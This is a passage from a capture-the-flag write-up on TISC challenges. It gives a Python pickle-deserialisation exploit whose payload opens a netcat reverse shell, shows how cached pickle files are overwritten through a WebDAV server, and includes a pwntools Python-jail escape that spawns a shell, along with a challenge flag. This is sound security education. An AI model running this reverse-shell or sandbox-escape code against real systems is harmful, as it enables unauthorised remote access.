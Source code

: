 Cached data was saved to the **filesystem** as pickle files!

If we could overwrite these pickle files, we have an easy RCE with pickle deserialisation.
That's where the **Intern server** (WebDAV) comes in ...
Since we have ability to write files through this server, we could simply overwrite the pickle files with `PUT` and `COPY`!

We can first generate an exploit pickle:

```python
import os
import base64
import pickle

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
        '/bin/sh -i 2>&1 | nc <REDACTED> 8080 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
```

Then we overwrite the saved pickle files with this data through the WebDAV server.
Finally, we use the `PROPFIND` method on the CalDAV server to trigger the cache load, and we get a shell!

`TISC{Y0uR_D4yS_ArE_nuMb3reD_34cc2686}`

## 8. Palindrome Vault

> We managed to get a foothold on PALINDROME's server! The foothold is a little restrictive but we believe a talented hacker like you can gain full control over the server!
>
> To access server: nc chal02w3tgq6sy7hakz4q9oywcevzb7v6j1jpv.ctf.sg 46271

First part was a python jail, where there are various known methods to exploit.

```python
#!/usr/bin/env python3

from pwn import *

r = remote("chal02w3tgq6sy7hakz4q9oywcevzb7v6j1jpv.ctf.sg", 46271)

r.sendlineafter(b": ", b"print(getattr(getattr({}.__class__,'__bas''e__').__subclasses__()[104].load_module('o''s'),'sys''tem')('s''h'))")

r.interactive()
```

Main ideas of the jail bypass are the use of `getattr` and the ideas brought by [gynvael's post](https://gynvael.coldwind.pl/n/python_sandbox_escape).

